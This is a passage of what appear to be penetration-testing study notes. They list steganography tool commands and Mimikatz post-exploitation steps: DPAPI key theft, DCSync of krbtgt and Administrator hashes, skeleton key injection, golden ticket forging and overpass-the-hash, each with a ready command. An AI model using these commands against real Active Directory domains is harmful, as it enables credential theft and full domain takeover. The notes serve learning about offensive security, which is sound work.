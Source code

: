 There are tools which can be used for that like:
- stegsnow: `stegsnow -p password cover_text.txt hidden_message.txt > output.txt`
- steghide: `steghide embed -ef hidden_file.txt -cf cover_image.jpg -p password`

And there are tools which are used to analyze and extract hidden messages like zsteg.

# Covering tracks

# Mimikatz
It is a Windows password post exploitation tool used to dump credentials and other sensitive information.

### what is DP API?
DPAPI stands for Data Protection API, which is a feature provided by Windows systems for encrypting and decrypting data. DPAPI is primarily used to protect sensitive data stored on Windows systems, such as user credentials, private keys, and other secrets.

- `sekurlsa::dpapi` to grap master keys from dpapi.
- `lsadump::backupkeys /system:win2019.example.com /export`
- `lsadump::dcsync /domain:example.com /user:Administrator`

### Skeleton Key Attack
In a skeleton key attack, an attacker gains unauthorized access to a Windows Active Directory (AD) domain controller and injects a "skeleton key" into the domain controller's memory. This "skeleton key" allows the attacker to authenticate as any user on the domain without needing their password (we use "mimikatz" as the passsword).

#### How?
- Firstly we have to enable the SeDebugPrivilege privilege for the current process: `privilege::debug`
- then: `misc::skeleton` and that's it!

### Golden Ticket Attack
A golden ticket allows to authenticate to any service with one single ticket. 

1. First we need to find the krbtgt service hash: `lsadump::dcsync /domain:example.com /user:krbtgt`.
2. Then we need to find the SID of a user account that will be granted the ticket: `whoami /user` on user's machine (Either an account I created or one I compromised).
3. Then: `kerberos::golden /domain:example.com /sid:{sid} /rc4:{krbtgt NTLM hash} /id:500 /user:{anything}` will grant the user this ticket where we use 500 as we are looking for administrative privileges.

### Overpass the Hash Attack
1. Firstly we need to find the user NTLM hash: `sekurlsa::logonpasswords`.
2. Then we need to execute this command: `sekurlsa::pth /user:Admisitrator /domain:example.com /ntlm:{user's NTLm}`.
3. Mimikatz opens a prompt then with user's privileges.

# Pivoting/Relaying
### Pivoting:
Pivoting involves using a compromised system, often referred to as a "pivot point" or "pivot host," to gain access to other systems or networks that are not directly accessible from the attacker's initial entry point. The pivot host serves as a bridge or intermediary for the attacker to launch further attacks against additional targets within the network.
